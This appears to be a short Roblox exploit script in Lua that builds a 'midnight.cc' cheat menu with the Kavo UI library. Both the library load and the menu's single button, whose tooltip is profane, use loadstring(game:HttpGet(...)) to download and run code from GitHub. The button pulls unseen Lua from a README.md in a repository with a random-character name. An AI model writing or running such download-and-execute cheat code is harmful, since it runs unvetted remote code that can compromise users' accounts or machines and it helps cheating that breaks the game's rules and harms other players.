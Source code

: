 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("midnight.cc", "Midnight")
local Tab = Window:NewTab("Main")
local Section = Tab:NewSection("Main")
Section:NewButton("Fake macro (C)", "SHUT THE FUCK UP", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/wiqafuwqufwqu/FWAFAWFSAF/main/README.md"))()
end)
